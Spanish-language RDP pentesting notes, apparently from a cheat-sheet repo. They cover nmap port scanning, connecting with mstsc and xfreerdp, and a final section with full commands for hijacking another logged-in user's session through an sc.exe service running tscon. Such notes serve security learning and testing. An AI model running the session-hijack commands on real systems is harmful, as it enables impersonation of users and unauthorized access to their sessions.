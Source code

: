 # Info
Usualmente está alojado en el puerto 3389

#### Recon con nmap
nmap -Pn -p3389 192.168.2.143 


# Conectarse:
### Desde windows:

    mstsc.exe

### Desde linux

##### REMOTE DESK CONECTION

    xfreerdp /u:(username) /p:(password) /v:(Machine IP) /dynamic-resolution

##### Para compartir una carpeta
    xfreerdp /u:(username) /p:(password) /v:(Machine IP) /dynamic-resolution +clipboard /drive:SHARE,/path/shared 

##### Si queremos mejorar la conexión optimizando 

    xfreerdp /u:(username) /p:(password) /v:(Machine IP) /dynamic-resolution +clipboard /drive:SHARE,/path/shared /bpp:8 /compression -themes -wallpaper /clipboard /audio-mode:0 /auto-reconnect -glyph-cache


---

# Impersonar un usuario conectado por rdp:
Necesitamos tener privilegios de administrador.

primero vemos si hay otro usuario conectado:

    query user

creamos un servicio:

    sc.exe create sessionhijack binpath= "cmd.exe /k tscon <user_id_a_impersonar> /dest:<nuestra_sesion>"

luego iniciamos el servicio y se va a abrir un cmd con la sesión del usuario:

    net start sessionhijack



0E14B9D6330BF16C30B1924111104824
